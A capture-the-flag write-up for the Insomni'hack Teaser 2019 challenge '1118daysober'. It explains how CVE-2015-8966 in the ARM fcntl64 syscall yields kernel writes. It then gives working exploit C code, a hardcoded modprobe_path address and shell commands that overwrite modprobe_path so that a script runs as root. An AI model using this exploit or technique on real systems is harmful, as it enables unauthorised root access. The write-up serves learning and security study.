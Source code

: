 ```yaml
---
title: 1118daysober Insomni'hack Teaser 2019
updated: 2019-02-09 13:00:00
tags: [writeup,reversing,pwn]
---
```


- [1118daysober : Insomni'hack Teaser 2019](#orge54149f)
  - [usermode-helper API](#orgb555ee6)


<a id="orge54149f"></a>

# 1118daysober : Insomni'hack Teaser 2019

    The kernel of this vm is vulnerable to CVE-2015-8966, exploit it to gain root privileges and read /flag/flag.txt !
    Terminal ssh 1118daysober@1118daysober.teaser.insomnihack.ch
    Password: 1118daysober

We were given a arm qemu image and the information that it is vulnerable to `CVE-2015-8966`

```sh
$ ls
config  flag_part.img  README.txt  rootfs.img  run.sh  vmlinux  zImage
$ ./run.sh
/ $ uname -a
Linux (none) 4.9.118-00001-gab86c83a4f15 #1 SMP Sun Jan 13 14:34:37 CET 2019 armv7l GNU/Linux
```

Lucky I was able to find [POC](https://thomasking2014.com/2016/12/05/CVE-2015-8966.html) online for this CVE by the person who found this bug. So the bug was in the `fcntl64` legacy syscall. This function will call `set_fs(KERNEL_DS)` and it will not be set back to `USER_DS` when some particular flag was specified.

So the `addr_limit` variable in the `task_struct` specify the boundary of userspace and kernelspace address and when some pointers are passed to the kernel via syscall it is verified that these pointers are in the range of userspace using `access_ok()` macros. So basically `read(0, (void*)0xc0008000, 8)` wouldn't work since we have specified a kernel address. So there are times when we need to bypass this check to specify a kernel address. The `set_fs()` is used to change this, so `set_fs(KERNEL_DS)` set it to large value so that `access_ok` always return true. So after triggering the bug we can give kernel address.

I was able to give kernel addresses, but noticed that while giving user space pointer it was crashing , I could not figure out the exact cause of this. Anyway now we can only use kernel address. The main part of this post is to discuss about a cool trick, which can be used since we have a arbitrary read/write primitive in kernel space to exploit this bug.


<a id="orgb555ee6"></a>

## usermode-helper API

Using this API we can execute binaries from kernel space, and the best part is it will be executed as `root`. One of the use case of this to load required module dynamically when new device is plugged in or if we have specified a program to process the code dump in core<sub>pattern</sub>. This is a great article which talks about this API **[Invoking user-space applications from the kernel](https://www.ibm.com/developerworks/library/l-user-space-apps/)**

If we can trigger a event which will execute this code path and if we can control the program executed we can run program as `root`.

So when you execute a program Linux searches through it internal data structure figure out the binary format of the program and the specific loader to load the program into memory and start executing it . And if that process fails if checks if there is any kernel module that will help it to load the binary of this specific format. For that it requires to execute `modprobe` command and the kernel used this API to execute and load module.

```C
do_execve()
  do_execveat_common()
     __do_execve_file()
	  exec_binprm()
	    search_binary_handler()
	      request_module()
              __request_module()
	          call_modprobe()
	            call_usermodehelper_setup()
	            call_usermodehelper_exec()
```

```C
/*
	modprobe_path is set via /proc/sys.
*/
char modprobe_path[KMOD_PATH_LEN] = "/sbin/modprobe";
static int call_modprobe(char *module_name, int wait)
{
	struct subprocess_info *info;
	static char *envp[] = {
		"HOME=/",
		"TERM=linux",
		"PATH=/sbin:/usr/sbin:/bin:/usr/bin",
		NULL
	};

	char **argv = kmalloc(sizeof(char *[5]), GFP_KERNEL);
	if (!argv)
		goto out;

	module_name = kstrdup(module_name, GFP_KERNEL);
	if (!module_name)
		goto free_argv;

	argv[0] = modprobe_path;
	argv[1] = "-q";
	argv[2] = "--";
	argv[3] = module_name;	/* check free_modprobe_argv() */
	argv[4] = NULL;

	info = call_usermodehelper_setup(modprobe_path, argv, envp, GFP_KERNEL,
					 NULL, free_modprobe_argv, NULL);
	if (!info)
		goto free_module_name;

	return call_usermodehelper_exec(info, wait | UMH_KILLABLE);
}

```

So if we can overwrite the `modeprobe_path` and if you try to execute a binary of invalid format it will execute the specified binary.

There are also other place in the code base were we can use the same trick to get code execution . like `poweroff_cmd` Since we have a write primitive in kernel space we can use it to overwrite the `modeprobe_path` using read syscall. Then trigger the code path to execute specified file.

```C
  long modeprobe_path = 0xc1334dc8;
  read(0,(void*)modeprobe_path,14);
```

Then trigger it with

```sh
echo -ne '#!/bin/sh\n/bin/cp /flag/flag.txt /home/user/flag\n/bin/chmod 777 /home/user/flag\n' > /home/user/pwn
chmod +x /home/user/pwn
echo -ne '\xff\xff\xff\xff' > /home/user/ll
chmod +x /home/user/ll
```

Since `ll` contains a invalid magic bit, `request_module` function will be triggers and our `pwn` script will be executed as root which copies the flag can set the permission so that anyone can read it.

Exploit code, most of the code is from the POC.

```C
#define _GNU_SOURCE
#include "libc.h"

#define SEEK_SET  0       /* Seek from beginning of file.  */

struct flock
{
  short int l_type;	/* Type of lock: F_RDLCK, F_WRLCK, or F_UNLCK.	*/
  short int l_whence;	/* Where `l_start' is relative to (like `lseek').  */
  unsigned long l_start;	/* Offset where the lock begins.  */
  unsigned long l_len;	/* Size of the locked area; zero means until EOF.  */
  int l_pid;	/* Process holding the lock.  */
};
int try_to_read_kernel(){
  int len;
  int try_bytes = 4;

  /* char * path="/home/user/lll"; */
  long modeprobe_path = 0xc1334dc8;
  read(0,(void*)modeprobe_path,14);
  
  
  return len == try_bytes;
}

__attribute__((naked)) long sys_oabi_fcntl64(unsigned int fd, unsigned int cmd, unsigned long arg){
        
  __asm __volatile (
                    "swi	0x9000DD\n"
                    "mov	pc, lr\n"
                    :   
                    :
                    :
                    );
}

#define F_OFD_GETLK	36
#define F_OFD_SETLK	37
#define F_OFD_SETLKW 38


int _start(){
  int fd = open("/proc/cpuinfo", O_RDONLY);
  struct flock *map_base = 0;

  map_base = (struct flock *)mmap(0x0, 0x1000, PROT_READ | PROT_WRITE, MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);

  map_base->l_start = SEEK_SET;
  sys_oabi_fcntl64(fd, F_OFD_GETLK, (long)map_base);
  try_to_read_kernel();
  return 0;
}
```

Reference : [1] : [New Reliable Android Kernel Root Exploitation Techniques](http://powerofcommunity.net/poc2016/x82.pdf) [2] : [POC CVE-2015-8966](https://thomasking2014.com/2016/12/05/CVE-2015-8966.html) [3] : [@bata<sub>24</sub> kernel note](https://hackmd.io/s/r1BAS2P0z#) [4] : [Invoking user-space applications from the kernel](https://www.ibm.com/developerworks/library/l-user-space-apps/)
